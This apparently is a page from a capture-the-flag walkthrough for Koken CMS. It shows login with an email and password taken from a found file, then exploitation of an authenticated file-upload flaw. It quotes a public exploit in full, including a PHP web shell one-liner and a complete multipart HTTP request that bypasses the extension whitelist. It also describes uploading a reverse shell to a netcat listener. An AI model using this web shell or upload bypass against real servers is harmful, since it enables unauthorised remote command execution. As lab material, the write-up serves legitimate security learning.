




::: page
# login to koken {#login-to-koken .title}

\

From the **mailsent.txt** file we used the email password \--
**daisa@photographer.com:babygirl**

**We logged in successfully** :

Now we followed the steps in the **searchsploit result for koken** :

**We opened the file and read it** :

\# Exploit Title: Koken CMS 0.22.24 - Arbitrary File Upload
(Authenticated)

\# Date: 2020-07-15

\# Exploit Author: v1n1v131r4

\# Vendor Homepage: <http://koken.me/>

\# Software Link: <https://www.softaculous.com/apps/cms/Koken>

\# Version: 0.22.24

\# Tested on: Linux

\# PoC:
<https://github.com/V1n1v131r4/Bypass-File-Upload-on-Koken-CMS/blob/master/README.md>

The Koken CMS upload restrictions are based on a list of allowed file
extensions (withelist), which facilitates bypass through the handling of
the HTTP request via Burp.

Steps to exploit:

1.  Create a malicious PHP file with this content:

\<?php system(\$\_GET\[\'cmd\'\]);?\>

1.  Save as \"image.php.jpg\"

<!-- -->

1.  Authenticated, go to Koken CMS Dashboard, upload your file on
    \"Import Content\" button (Library panel) and send the HTTP request
    to Burp.

<!-- -->

1.  On Burp, rename your file to \"image.php\"

POST /koken/api.php?/content HTTP/1.1

Host: target.com

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101
Firefox/68.0

Accept: \*/\*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: <https://target.com/koken/admin/>

x-koken-auth: cookie

Content-Type: multipart/form-data;
boundary=\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--2391361183188899229525551

Content-Length: 1043

Connection: close

Cookie: PHPSESSID= \[Cookie value here\]

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--2391361183188899229525551

Content-Disposition: form-data; name=\"name\"

image.php

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--2391361183188899229525551

Content-Disposition: form-data; name=\"chunk\"

0

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--2391361183188899229525551

Content-Disposition: form-data; name=\"chunks\"

1

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--2391361183188899229525551

Content-Disposition: form-data; name=\"upload_session_start\"

1594831856

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--2391361183188899229525551

Content-Disposition: form-data; name=\"visibility\"

public

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--2391361183188899229525551

Content-Disposition: form-data; name=\"license\"

all

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--2391361183188899229525551

Content-Disposition: form-data; name=\"max_download\"

none

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--2391361183188899229525551

Content-Disposition: form-data; name=\"file\"; filename=\"image.php\"

Content-Type: image/jpeg

\<?php system(\$\_GET\[\'cmd\'\]);?\>

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--2391361183188899229525551\--

1.  On Koken CMS Library, select you file and put the mouse on
    \"Download File\" to see where your file is hosted on server.#

Steps :

1.  We first **changed the file extension** of our
    **php-reverse-shell.php** to **php-reverse-shell.php.jpg** (from
    pentestmonkey)
2.  Then, inside the **authenticated login** we found **import
    content**.
3.  Now before touching it, we set up **burpsuite** and **started the
    intercept**.
4.  Then we uploaded the **.jpg** file and **caught the intercept** on
    **burpsuite**.
5.  Then, changed the file extension **(removed jpg from 2 locations)**
6.  Forwared the request.
7.  Checked where our file is **uploaded on the server**.

Then we went to **/content** and clicked on the **.php file** extension
while **netcat listener was open** :

**We got a shell !!!**

:::
